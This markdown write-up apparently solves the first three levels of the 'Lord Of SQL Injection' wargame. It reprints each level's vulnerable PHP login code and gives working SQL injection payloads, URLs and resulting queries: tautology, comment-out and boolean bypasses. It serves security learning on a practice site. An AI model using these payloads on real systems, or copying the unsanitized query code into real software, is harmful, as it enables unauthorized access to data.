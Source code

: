 ## Lord Of SQL Injection

At [los.rubiya.kr](https://los.rubiya.kr/).

### Gremlin

```php
Challenge:

query : select id from prob_gremlin where id='' and pw=''

<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

We just need to bypass the login with the simple `1' OR '1'='1`.

Final Url: `https://los.rubiya.kr/chall/gremlin_280c5552de8b681110e9287421b834fd.php/?id=1&pw=1%27%20OR%20%271%27=%271`

Human Readable `https://los.rubiya.kr/chall/gremlin_280c5552de8b681110e9287421b834fd.php/?id=1&pw=1' OR '1'='1`

Final Query: `select id from prob_gremlin where id='1' and pw='1' OR '1'='1'`

### Cobolt

```php
Challenge:

query : select id from prob_cobolt where id='' and pw=md5('')

<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

We just need to bypass the MD5 password check and login as admin. So we use a `#` to comment out the MD5 check.

Final URL: `https://los.rubiya.kr/chall/cobolt_b876ab5595253427d3bc34f1cd8f30db.php?id=admin%27%20%23`

Human Readable: `https://los.rubiya.kr/chall/cobolt_b876ab5595253427d3bc34f1cd8f30db.php?id=admin' #`

Final Query: `select id from prob_cobolt where id='admin' #' and pw=md5('')`

### Goblin

```php
Challenge:

query : select id from prob_goblin where id='guest' and no=

<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

Currently, we cannot edit the `id='guest'` before the `'no'` parameter, so we must focus on making the `SELECT` statement's first part evaluate to `false`, allowing us to inject whatever usernumber `no` into the second part of the statement.

Firstly, by adding `?no=1` to the url, we see the statement `Hello guest`.

This means that `id='guest' and no=1` has evaluated to `true`.
Thus, to make it evaluate to `false`, we simply change the end of the url to `?no=2`.

Then, the webpage returns to "normal" and we know that the first part of the statement has evaluated to `false`.

Next, to get the webpage to say "Hello Admin", since we know that number 1 is guest, we can try to add a `or no=2` after the earlier payload to evaluate false. 

Thus, the final payload is `?no=2 or no=2`.

Final URL: `https://los.rubiya.kr/chall/goblin_e5afb87a6716708e3af46a849517afdc.php?no=2%20OR%20no=2`

Human Readable: `https://los.rubiya.kr/chall/goblin_e5afb87a6716708e3af46a849517afdc.php?no=2 OR no=2`

Final Query: `select id from prob_goblin where (id='guest' and no=2) OR no=2`


### Thanks for Reading!

Have a bowl of udon and sashimi!

<img src="https://4.bp.blogspot.com/-s9haeFPrRc0/U5hUac1x-SI/AAAAAAAAhI4/Ob9UAm8_sMk/s400/bukkake_udon.png" width=200px><img src="https://4.bp.blogspot.com/-NHTUWbcy_Wc/VMIt3Ie-4BI/AAAAAAAAqzY/gkFCt304v4k/s400/sashimi_hamachi.png" width=150px>
